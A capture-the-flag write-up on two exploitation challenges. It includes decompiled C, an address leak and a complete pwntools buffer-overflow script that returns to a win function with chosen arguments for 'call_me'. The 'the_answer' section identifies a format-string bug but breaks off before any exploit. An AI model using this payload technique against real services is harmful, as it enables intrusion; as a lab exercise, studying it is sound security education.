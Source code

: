 # call_me

```
As the name suggests, you should probably call some function (with the correct arguments) to make the service print a flag. Are there any other flags? Maybe...
```
  k
In order to understand what the executable would normally do I tried to run it and when prompted I inserted random values.
Doing so I finally got this message outputted

```
Wow, you do know the song! However, you did not solve the challenge :-(
```

Reading this I thought that maybe some pattern matching was executed against the input looking for a specific song's lyrics.
Leveraging this I opened the file with Ghidra looking for something related.
Analysing the functions I found one with an interesting body

```c
void FUN_000111ed(int param_1,int param_2,int param_3)
{
	printf("BASC{");
	if (param_1 != 0xb100d) {
	    exit(1);
	}
	printf("you_g0t_");
	if (param_2 != 0x5e1ec7ed) {
	    exit(2);
	}
	printf("the_args_");
	if (param_3 != 0x7ea) {
        exit(3);
	}
	puts("right}.");
        exit(0x2a);
	}
}
```

This functions seemed to print a flag if some specific parameters where passed.
To better understand what was going on I used the functionality to show the functions' calls tree.
Doing so I discovered that the "print_flag" function was called by another one 

```c
void FUN_000112f8(void)
{
	char *pcVar1;
	int iVar2;
	char acStack_bd [165];
	size_t local_18;
	int local_14;
	int local_10;
  
	local_10 = 0;
	local_14 = 0;
	while( true ) {
	    if ((&PTR_s_Color_me_your_color,_baby_00014020)[local_14] == (undefined *)0x0) {
			puts("Wow, you do know the song! However, you did not solve the challenge :-(");
			return;
	    }
	    printf("Enter line #%d: ",local_14 + 1);
	    pcVar1 = gets(acStack_bd + 1);
	    if (pcVar1 == (char *)0x0) break;
	    local_18 = strlen(acStack_bd + 1);
	    if (0x50 < local_18) {
	      return;
	    }
	    if ((local_18 != 0) && (acStack_bd[local_18] == '\n')) {
	      acStack_bd[local_18] = '\0';
	    }
	    iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
	    if (iVar2 == 0) {
	      local_10 = local_10 + 1;
	      if (local_10 == 3) {
	        printf("&target=%p\n",print_flag);
	      }
	    }
	    else {
	      local_10 = local_10 + -1;
	    }
	    local_14 = local_14 + 1;
	  }
  return;
}
```

This function was actually the one that prompted the user to insert the song's lyrics and looking at the line 

```c
printf("Enter line #%d: ",local_14 + 1);
```

I understood that the variable **local_14** held a index that kept track the current song's lyrics line that would be later on compared with the one inserted by the user

```c
iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
```

If the comparison was successful the variable **local_10** would be incremented and when the value 3 was reached it should leak the address of the **print_flag** function.
So in order to get the address I had to insert three correct lines of the song's lyrics

```
> nc 192.168.20.1 5110
Enter line #1: Color me your color, baby
Enter line #2: Color me your car
Enter line #3: Color me your color, darling
&target=0x5664a1ed
```

Knowing this I could finally exploit the program through the **gets** function vulnerability.

```c
pcVar1 = gets(acStack_bd + 1);
```

It is possible to conduct a buffer overflow attack pretty easily figuring out the offset necessary to fill the **acStack_bd** variable ( e.g. using a cyclic pattern ) and then returning to the dynamically leaked function's address.
I had also to pass the correct parameters leaked by the **print_flag** function in order to get the flag.
Adding a 4 bytes offset between the function address and the parameters was necessary due to the architecture calling convention.

```python
p = pwn.remote(HOST, PORT)
p.recvuntil(b":")
p.sendline(b"Color me your color, baby")
p.recvuntil(b":")
p.sendline(b"Color me your car")
p.recvuntil(b":")
p.sendline(b"Color me your color, darling")
leaked_address = p.recvuntil(b"target=")
leaked_address = p.recvline().strip().decode()
p.sendline(
	b"a" * OFFSET
	+ pwn.p32(int(leaked_address, 16))
	+ b"a" * 4
	+ pwn.p32(int(FIRST_PARAM, 16))
	+ pwn.p32(int(SECOND_PARAM, 16))
	+ pwn.p32(int(THIRD_PARAM, 16))
)
p.interactive()
```

Doing so I was able to get the first flag

```
BASC{you_g0t_the_args_right}
```

Since the exercise description hinted the presence of other flags I tried to gather more info about the file security using the **checksec** command

```json
{
	"call_me_thaMilo": 
	{
	    "relro": "full",
	    "canary": "no",
	    "nx": "yes",
	    "pie": "yes",
	    "rpath": "no",
	    "runpath": "no",
	    "symbols": "no",
	    "fortify_source": "no",
	    "fortified": "0",
	    "fortify-able": "2"
	}
}
```

Since **nx** is enabled is impossible to execute shell-codes and considering all the other security measures the only vulnerability I could find was trying to conduct a ret-to-libc attack.

# the_answer

```
There is a unique answer to the Ultimate Question of Life, the Universe, and Everything.
BTW, `0xbadc0ffe` isn'it.

Warning: Ghidra's decompiler sometimes (it depends on the Ghidra version) tries too hard to be clever and may "optimize" (=hide/remove) something it shouldn't.
So, do not blindly trust its output and take a look at the assembly view as well.
```

In order to understand what the executable would normally do I tried to run it and when prompted I inserted a my name since it asked for it.
It replied only with "Hi, Milo".
So I had to check what was going on inside with Ghidra.

```c
undefined8 main(void)
{
  int __fd;
  ssize_t sVar1;
  size_t __n;
  long in_FS_OFFSET;
  char local_1018 [4104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  memset(local_1018,0,0x1000);
  puts("What\'s your name?");
  sVar1 = read(0,local_1018,0x1000);
  if (sVar1 < 1) {
    exit(1);
  }
  printf("Hi, ");
  printf(local_1018);
  if (DAT_00404308 == 0x2a) {
    puts("Exactly! Here\'s your flag:");
    __fd = open("flag.txt",0);
    __n = read(__fd,local_1018,0x1000);
    write(1,local_1018,__n);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

With a quick look I saw that if the variable **DAT_00404308** was equal to 0x2a, 42 decimal ( \*Galaxy Hitchhiker nodding\* ) the **flag.txt** file was read and printed out... so the focus was getting that variable to hold the correct value.
